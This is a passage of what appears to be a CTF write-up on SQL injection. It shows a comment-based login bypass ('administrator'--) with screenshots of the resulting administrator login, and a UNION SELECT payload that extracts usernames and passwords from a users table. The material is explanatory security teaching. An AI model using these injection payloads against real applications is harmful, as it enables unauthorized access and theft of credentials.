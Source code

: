<br/>

For instance, a login page with a username and password uses an SQL query to check the credentials by performing an SQL query to authenticate the user.


```sql
SELECT * FROM users WHERE username = 'administrator' AND password = 'admin123'
```

<br/>

An attacker can manipulate this type of login query by commenting out the password entirely.

<br/>

**Full Query:**


```sql
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
```

<br/>

As a result, the query returns the username **administrator** and logs the attacker in as that user.

<br/>

<br/>

![040b5b02_Untitled](https://github.com/Fedwig/picoCTF2023-Writeup/assets/85858497/5d445465-8010-470f-87f2-ed5ac5bbb043)

![1d312a4c_Untitled](https://github.com/Fedwig/picoCTF2023-Writeup/assets/85858497/bafe3fad-b039-44f7-b9f5-704609d23ee4)

- **Successfully logged in as Administrator**

<br/>

## Union Attacks

Union attacks allow the attacker to retrieve data from other tables within the database using the **UNION** keyword which allows the attacker to run another **SELECT **query by appending it to the end of the original query.

<br/>

 **Application Query:**


```sql
SELECT name, description FROM products WHERE category = 'Accessories'
```

<br/>

**Modified Query:**


```sql
SELECT name, description FROM products WHERE category = 'Accessories' UNION SELECT username, password from users--
```
